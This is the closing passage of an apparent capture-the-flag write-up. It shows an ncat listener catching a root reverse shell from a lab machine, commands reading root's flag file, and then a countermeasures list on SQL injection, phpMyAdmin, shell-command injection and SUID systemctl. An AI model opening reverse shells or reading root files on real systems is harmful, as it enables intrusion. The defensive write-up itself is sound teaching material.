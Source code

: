 On my Kali machine, I was presented with reverse shell session with root privileges:

```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48472.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
```

## Countermeasures

* Use [prepared statements](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html) so that the database doesn't interpret data as code.
* Upgrade to the latest version of PhpMyAdmin.
* Use stronger passwords (i.e. at least 28 randomly generated alpha-numeric with symbols) to make them harder to crack.
* Avoid using code that directly invokes shell commans like python's `os.system()`. Prefer using safer platform APIs instead. A less effective countermeasure is to whitelist permitted values rather than implementing a blacklist. For example, you can validate whether the `command` value is an IP address or resolves to one.
* For users that need to invoke systemctl, prefer using sudo with a password rather than setting root SUID permissions on the binary if possible. In the case of a breach, this would ensure that an attacker would also need the compromised user's password.
